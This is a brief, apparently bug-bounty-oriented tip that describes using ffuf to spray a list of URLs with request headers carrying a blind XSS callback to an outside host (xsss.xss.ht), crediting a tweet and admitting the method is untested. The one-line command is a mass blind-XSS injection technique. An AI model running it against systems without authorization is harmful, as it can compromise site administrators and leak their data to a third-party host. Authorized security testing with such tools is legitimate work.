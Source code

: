 This for test not sure if it working or not.

Save headers.txt on your root dir and change the blind xss to yours.

Run ffuf -w urls_live.txt:FUZZ1 -w headers.txt:FUZZ2 -u FUZZ1 -H "FUZZ2:https://xsss.xss.ht"

Original tweet

https://twitter.com/sil3ntknight46/status/1478206857848115207?s=20
